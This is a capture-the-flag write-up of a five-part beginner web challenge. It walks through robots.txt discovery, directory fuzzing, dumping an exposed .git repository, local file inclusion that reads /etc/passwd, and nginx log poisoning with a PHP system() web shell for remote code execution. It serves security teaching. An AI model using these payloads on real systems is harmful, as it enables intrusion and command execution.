

# Challenge

**Name:** Welcome To Web

**Category:** Web

**Author:** Alex Brown (ghostccamm)

---

**Name Part A:** Welcome To Web Part A: No Robots

**Difficulty Part A:** Easy

**Flag Part A:** `ISS{r0BoT5.tXt_d0nT_h1D3_fR0m_eVrYtH1nG!1one!}`

## **Description Part A:**

I am currently developing a new super duper cool website. However, I do not want **search engines** to list our website until I have completed it.

Can you find the first secret folder?

## **Solution Part A:**

Websites use a file located at `/robots.txt` to list what search engine bots can and cannot list. Checking the `/robots.txt` (shown below) reveals the first secret folder is `/topsecretconstruction/`. Visiting the `/topsecretconstruction/` page on the website will reveal the flag for Part A.

*robots.txt*
```
User-agent: *
Disallow: /topsecretconstruction/
```

---

**Name Part B:** Welcome To Web Part B: A Bit Fuzzy

**Difficulty Part B:** Easy

**Flag Part B:** `ISS{fUzZi_wUzZi_oWo}`

## **Description Part B:**

**To complete this challenge you need to have completed 'Welcome To Web: No Robots'**

Well... I guess I cannot hide my website from humans... However, I have added an additional security precaution to hide our website. It makes me feel **fuzzy** that you cheeky hackers will not be able to find it!

Can you find the second secret folder?

**Limit your web fuzzer to max 10 threads!**

## **Solution Part B:**

Using a web fuzzer such as `feroxbuster`, `gobuster`, `wfuzz`, etc using the SecLists `common.txt` wordlist will reveal the folder `/topsecretconstruction/v1/`. Visiting this page will show the flag for Part B.

```
$ feroxbuster --url http://127.0.0.1:4245/topsecretconstruction/ --extract-links -t 5 -w /usr/share/seclists/Discovery/Web-Content/common.txt -n 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.4.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://127.0.0.1:4245/topsecretconstruction/
 🚀  Threads               │ 5
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/common.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.4.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
WLD        7l       14w      186c Got 500 for http://127.0.0.1:4245/topsecretconstruction/1c3cd99675db4c82bbf55157f9208552 (url length: 32)
WLD         -         -         - Wildcard response is static; auto-filtering 186 responses; toggle this behavior by using --dont-filter
WLD        7l       14w      186c Got 500 for http://127.0.0.1:4245/topsecretconstruction/8545a114051b40ba93cb2b174b2cb953c50afa05b2e543a6b02e776992049b806946439fc6b640048ceb75e48df5be60 (url length: 96)
200        6l        8w        0c http://127.0.0.1:4245/topsecretconstruction/index.php
301        7l       12w      178c http://127.0.0.1:4245/topsecretconstruction/v1
[####################] - 3s      4702/4702    0s      found:4       errors:0      
[####################] - 2s      4704/4702    2010/s  http://127.0.0.1:4245/topsecretconstruction/

```

---

**Name Part C:** Welcome To Web Part C: Git Good At Hacking

**Difficulty Part C:** Easy

**Flag Part C:** `ISS{3xp05eD_g1T_r3P0!1!!one!}`

## **Description Part C:**

**To complete this challenge you need to have completed 'Welcome To Web: A Bit Fuzzy'**

Flip you are good at hacking... Fortunately I removed my secret **`secret.txt`** from the development website! I do not want that to be **exposed**!

Can you find a way to read the flag that was in `secret.txt` before it was deleted?

## **Solution Part C:**

Either using a web fuzzer similar to Part B or inferring from the **Git** in the challenge name, you can test if a git repository has been exposed on the website by trying to open `.git/HEAD`. You can open `/topsecretconstruction/v1/.git/HEAD`, therefore the entire git repository can be downloaded using a tool such as `git-dumper`.

Once the git repository has been downloaded, checking the git logs show that `secret.txt` being deleted. Using `git diff` will reveal the contents of `secret.txt` that was deleted.

```
$ git diff 36cc2069236f6d7981aaa2c5eecb4c961e83f4cf 9c06ec592ddb07079204e0e83723bfb575c4a3da
diff --git a/secret.txt b/secret.txt
new file mode 100644
index 0000000..ab0403f
--- /dev/null
+++ b/secret.txt
@@ -0,0 +1 @@
+ISS{3xp05eD_g1T_r3P0!1!!one!}
```

---

**Name Part D:** Welcome To Web Part D: Let's Find Insecurities

**Difficulty Part D:** Easy

**Flag Part D:** `ISS{lF1_w1ll_c4v53_tH15_w3B_2_d13!1!}`

## **Description Part D:**

**To complete this challenge you need to have completed 'Welcome To Web: A Bit Fuzzy'**

Alright well all you pesky script kiddies have find my website under construction. I don't care! There is nothing to exploit here!

Can you find a way to read the flag located at `/flag` on the challenge instance?

## **Solution Part D:**

Playing with the buttons reveal that there is a `page` GET parameter in the URL (`/topsecretconstruction/v1/index.php?page=dashboard.php`). Testing if this vulnerable to Local File Inclusion (LFI), you can test if you can the `/etc/passwd` file on the challenge instance by visiting `/topsecretconstruction/v1/index.php?page=/etc/passwd`, which works!

To get the flag all you just need to set `page=/flag`.

```
/topsecretconstruction/v1/index.php?page=/flag
```

---

**Name Part E:** Welcome To Web Part E: Poisonous Logs

**Difficulty Part E:** Easy

**Flag Part E:** `ISS{p01s0n0v5_l0G5_c4n_r35vLt_1n_rC3!one}`

## **Description Part E:**

**To complete this challenge you need to have completed 'Welcome To Web: Let's Find Insecurities'**

I give up! At least you pro hackers cannot **execute commands** on my website!

To get the final flag, figure out a way to execute the command `getfinalflag` on the challenge instance.

## **Solution Part E:**

LFI vulnerabilities can be leveraged as a Remote Code Execution (RCE) vulnerabiltiy if the attacker can read a file that executes PHP code the attacker places there. One of the most common methods to do this is by injecting PHP code into log files, then triggering the exploit by opening the log file using the LFI vulnerability.

Checking for common log files on the challenge instance you will be able to open `/var/log/nginx/access.log` and `/var/log/nginx/error.log`. To turn the LFI into a RCE vulnerability, you can modify your `User-Agent` header using a tool such as Burp Suite to `Mozilla/5.0 <?php system($_GET['cmd']); ?> Firefox/91.0` and visit any page on the website. This will inject the PHP code `<?php system($_GET['cmd']); ?>` into `/var/log/nginx/access.log` that will execute the terminal command given as the GET parameter `cmd`.

Exploiting the LFI to open `/var/log/nginx/access.log` and executing the cmd `getfinalflag` will show the final flag (URL path `/topsecretconstruction/v1/index.php?page=/var/log/nginx/access.log&cmd=getfinalflag`).



---